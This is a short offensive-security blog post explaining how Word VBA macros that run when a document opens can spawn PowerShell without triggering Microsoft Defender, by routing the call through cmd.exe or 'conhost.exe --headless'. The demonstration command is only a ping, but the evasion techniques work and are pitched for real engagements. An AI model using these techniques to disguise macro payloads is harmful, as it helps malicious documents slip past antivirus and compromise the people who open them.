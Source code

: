 ```yaml
---
title: Introduction to Parent-Child Process Evasion 
date: "2021-10-22"
---
```


Simple changes in process relationship could bypass certain security solutions<!-- end -->.

# Parent/Child Process Relationship

Security solutions often monitor process relationships to detect malicious behaviour. For this blog post we'll see how Microsoft Defender flags a MS Word document if you attempt to spawn `powershell.exe`, regardless of what the spawned PowerShell process does. We'll also explore how we can bypass this detection.

## Spawning PowerShell (The Detected Way)

Below we have an innocent looking VBA script that spawns PowerShell.exe via the `Shell` command and runs `ping google.com`.

    Sub AutoOpen()
    Test
    End Sub

    Sub Document_Open()
    Test
    End Sub

    Sub Test()
    Shell "powershell.exe -c ping google.com", vbNormalFocus
    End Sub

Unfortunately, Defender doesn't seem to agree that it's innocent. PowerShell has been abused to an extent where Microsoft Defender doesn't seem care what the command does.

![Triggered](./triggered.png)

If we go view 'Protection History' we can see its being treated as a Trojan.

![Trojan](./malicious.png)

## Spawning PowerShell (The Clean Way)

With an additional 10 characters to our command, Microsoft Defender won't complain anymore. We're going to modify our `Shell` command as shown below.

    # Before
    Shell "powershell.exe -c ping google.com", vbNormalFocus

    # After
    Shell "cmd.exe /c powershell.exe -c ping google.com", vbNormalFocus

![Bypass](./bypass-vid.gif)

Below we can see how the parent/child relationship was modified.

![child-processes-before](./child-processes-before.png)

![child-process-after](./child-processes.png)

## Avoiding Cmd.exe

Although `cmd.exe` is a better alternative than `powershell.exe`, it's still a highly monitored process by defenders. A better way which avoids `cmd.exe` is shown below.

    Shell "conhost.exe --headless powershell.exe -c ping google.com", vbNormalFocus

This way `cmd.exe` and `powershell.exe` are avoided as direct child processes.

![Conhost](./conhost-child.png)

## Why Does This Work?

It seems that Defender blacklists `powershell.exe` as a direct child process. In pseudocode it's probably programmed something like this:

`if WINWORD.exe spawns powershell.exe then Trojan`

Clearly we don't fit the above description so we're good!

# Conclusion

In a real engagement you should probably avoid the `Shell` command altogether, but the point of this post is to demonstrate how small modifications in process relationships can result in a different outcome. 
